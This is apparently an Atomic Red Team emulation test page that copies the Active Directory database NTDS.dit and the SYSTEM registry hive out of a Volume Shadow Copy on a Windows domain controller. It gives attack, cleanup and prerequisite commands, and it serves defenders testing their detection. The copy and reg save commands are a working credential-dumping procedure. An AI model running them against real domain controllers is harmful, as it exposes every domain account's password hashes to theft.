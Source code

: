 ## Atomic Test #2 - Copy NTDS.dit from Volume Shadow Copy
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by copying it from a Volume Shadow Copy.

This test requires steps taken in the test "Create Volume Shadow Copy with vssadmin".
A successful test also requires the export of the SYSTEM Registry hive.
This test must be executed on a Windows Domain Controller.

**Supported Platforms:** Windows


**auto_generated_guid:** c6237146-9ea6-4711-85c9-c56d263a6b03





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vsc_name | Name of Volume Shadow Copy | string | &#92;&#92;?&#92;GLOBALROOT&#92;Device&#92;HarddiskVolumeShadowCopy1|
| extract_path | Path for extracted NTDS.dit | path | C:&#92;Windows&#92;Temp|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy #{vsc_name}\Windows\NTDS\NTDS.dit #{extract_path}\ntds.dit
copy #{vsc_name}\Windows\System32\config\SYSTEM #{extract_path}\VSC_SYSTEM_HIVE
reg save HKLM\SYSTEM #{extract_path}\SYSTEM_HIVE
```

#### Cleanup Commands:
```cmd
del "#{extract_path}\ntds.dit"        >nul 2> nul
del "#{extract_path}\VSC_SYSTEM_HIVE" >nul 2> nul
del "#{extract_path}\SYSTEM_HIVE"     >nul 2> nul
```



#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT
```
##### Get Prereq Commands:
```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```
##### Description: Volume shadow copy must exist
##### Check Prereq Commands:
```cmd
if not exist #{vsc_name} (exit /b 1)
```
##### Get Prereq Commands:
```cmd
echo Run "Invoke-AtomicTest T1003.003 -TestName 'Create Volume Shadow Copy with vssadmin'" to fulfill this requirement
```
##### Description: Extract path must exist
##### Check Prereq Commands:
```cmd
```